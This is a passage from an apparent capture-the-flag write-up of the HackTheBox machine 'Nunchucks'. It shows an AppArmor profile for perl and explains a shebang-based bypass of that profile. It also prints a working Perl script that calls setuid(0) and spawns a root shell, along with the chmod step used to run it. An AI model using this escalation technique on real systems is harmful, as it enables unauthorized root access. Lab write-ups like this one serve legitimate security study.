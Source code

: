 Reading file showed that perl is denied  `rwx` access on /root, while it can run later commands such as `id` , `ls`, `cat`, `whoami` and file in `/opt/backup.pl` directory.

``` bash
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```

 Let's try those commands,

![17](/media/janak/workshop/website/chirpy/am-root.github.io/image/hackthebox/nunchucks/17.png)

[Bug from launchpad](https://bugs.launchpad.net/apparmor/+bug/1911431) shows that adding [Shebang(#)](https://en.wikipedia.org/wiki/Shebang_(Unix)#:~:text=In%20computing%2C%20a%20shebang%20is,bang%2C%20or%20hash%2Dpling.) will bypass security checks and execute arbitrary script.

I created small script mentioned before from GTFObins, and added shebang 

>  #!/usr/bin/perl
> use POSIX qw(setuid);
> POSIX::setuid(0); 
> exec "/bin/sh";

gave the script `+x` permission

> chmod +x shell.pl

and *voilà* I got root.

![18](/media/janak/workshop/website/chirpy/am-root.github.io/image/hackthebox/nunchucks/18.png)
